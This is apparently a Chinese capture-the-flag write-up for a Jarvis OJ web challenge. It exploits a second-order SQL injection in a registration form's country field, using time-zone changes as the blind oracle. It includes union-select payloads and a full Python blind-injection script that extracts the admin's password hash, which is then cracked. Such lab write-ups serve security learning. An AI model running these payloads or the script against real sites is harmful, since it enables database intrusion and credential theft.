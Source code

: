 ## 描述

题目入口：http://web.jarvisoj.com:32796/

Hint1: 二次注入

Hint2: register 二次注入在country

## 题解

什么花里胡哨的界面。。。

首先随便试了下登录，用户名、密码都为 a 直接就进去了，难道这是假的登录？

wdnmd，后来试了下好像是直接猜对了用户名密码？？？？？？？？？这也太不走心了吧。。难不成是想让我们弱口令爆破一下得到一个低权限账号。。然后再去搞事？只是恰好我试对了？？？

在里面到处点了点，没点出什么花样来，但是发现了这个链接

http://web.jarvisoj.com:32796/index.php?page=index

可能有是会在末尾加上 `.php` 的操作？

不管了，为了完整的体验，我们从头开始，假装我们不知道那个账号密码，先扫为敬。扫出了挺多东西的（而且还没登录）

`config.php`、`register.php`、`test.php`、`hacker.php`、`user.class.php`、`login.php` 均为 200。一个个试。

`login.php` 乱试密码的话，均为相同的提示，所以没办法盲注这种操作，先放一边。剩下的只有 `register.php` 能用，突破口应该是这。

经过了我两次注册后，我懂了，a 是别人注册留下来的账号。。。。。。。。。。我。。。。。。

既然提示是注入，那么我们看看这个注册能否注入东西。

折腾了很久以后，没进展。开始搜索 `二次注入` 的关键词，然后找到了这篇文章 http://tinyfisher.github.io/security/2018/04/10/threehit

学习了一发，结合提示，大概知道这题要考啥了。

首先随便注册一个账号后，能发现 http://web.jarvisoj.com:32796/index.php?page=info 里时间会动，说明这个邮件是即时生成的，应该就是能二次注入显示的地方了，题目提示了 Country 可以注入，但是注入了的话应该得有一个地方变化才能进行注入或者盲注呀。突然发现 Country 是不是会影响 Date！我新注册了几个不同城市的，发现，Date 变了！！！不同时区不同时间！

尝试 `'#` 是标准 UTC，而 `'or 1#` 是 UTC+8。可以开始了。

但是注意，服务器的 WAF 还是有点厉害的，子串里不能有 `where`、`table`、`column`、`information`、`/`、`limit`，玩蛇皮，双写、大小写都绕不过。绕过大全 https://www.cnblogs.com/r00tgrok/p/SQL_Injection_Bypassing_WAF_And_Evasion_Of_Filter.html 都找不到能解决的方法。我只能得到数据库名是 `wctf`。

在搜索解决方法的途中搜到一个不错的盲注文章 https://www.freebuf.com/articles/web/30841.html 虽然对本题没帮助。

最后还是不得不看题解了呀。

MD，猜表。。。。。。。。。。。。。。。。。。。。。。。。。。。。。。

表名是 users。我们用

```
cmd = "select group_concat(a) from (select 1`a`,2,3,4 union select * from users)`b`"
```

（注意得用 ``` ` ``` 来包字符串，因为 `'` 在前面用过了，以及注意长度，太长了会被截断然后 GG）

不断递增数字来猜测列的数目（起码是 4，因为注册信息告诉我们的），然后猜到 5 列就出来了。代码如下

```python
import requests
import sys
import random, re
import datetime
register_url = 'http://web.jarvisoj.com:32796/register.php'
login_url = 'http://web.jarvisoj.com:32796/login.php'
check_url = 'http://web.jarvisoj.com:32796/index.php?page=info'
data = {
    'username': '',
    'password': 'gg',
    'address': 'mf',
    'country': '',
}
cmd = "select group_concat(a) from (select 1,2`a`,3,4,5 union select * from users)`b`"
country = "' or ascii(substr(({}),{},1))>{}#"
reg = re.compile(r'(\d\d):\d\d:\d\d')
for i in range(1, 100):
    l, r = 1, 127
    while l <= r:
        sess = requests.session()
        m = (l + r) >> 1
        data['username'] = 'xalanq' + str(random.randint(1, 100000000))
        data['country'] = country.format(cmd, i, m)
        t = sess.post(register_url, data=data)
        if 'has been registered' in t.text:
            continue
        if 'Hacker!' in t.text:
            print("cmd is defended by WAF")
            exit(0)
        login_data = {'username': data['username'], 'password': data['password']}
        t = sess.post(login_url, data=login_data)
        t = sess.get(check_url)
        h = int(reg.findall(t.text)[0])
        nh = datetime.datetime.now().hour
        if h == nh:
            l = m + 1
        else:
            r = m - 1
    if r <= 0:
        break
    print(chr(l), end='')
    sys.stdout.flush()
print()
```

得到 `2,admin,s`，所以第 2 列应该就是用户名了，猜测第 3 列是密码。改下上面代码为

```
cmd = "select group_concat(a) from (select 1,2,3`a`,4,5 union select * from users)`b`"
```

就好。得到 admin 的密码 9a73fd18fedd9643357ffe20b9d974e4，查表得知为 CleverBoy

## 答案

flag{URst0rong}
